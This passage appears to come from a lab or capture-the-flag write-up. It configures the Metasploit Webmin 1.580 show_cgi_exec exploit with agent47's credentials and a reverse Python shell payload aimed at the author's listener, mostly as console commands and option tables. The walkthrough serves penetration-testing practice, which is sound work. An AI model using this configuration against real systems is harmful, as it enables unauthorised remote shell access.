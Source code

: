 ```
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL  /bin/bash        yes       The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   Webmin 1.580
```

There are quite a few options to set so I run the following commands:
- `set PASSWORD <agent47 password>`
- `set USERNAME agent47`
- `set RHOSTS localhost`
- `set SSL false`
- `set LHOST <MY IP>`

Running the `options` command again should show the following for you now:

```
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > options

Module options (exploit/unix/webapp/webmin_show_cgi_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD  <REDACTED>       yes       Webmin Password
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS    localhost        yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT     10000            yes       The target port (TCP)
   SSL       false            yes       Use SSL
   USERNAME  agent47          yes       Webmin Username
   VHOST                      no        HTTP server virtual host


Payload options (cmd/unix/reverse_python):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  <MY IP>          yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL  /bin/bash        yes       The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   Webmin 1.580
```
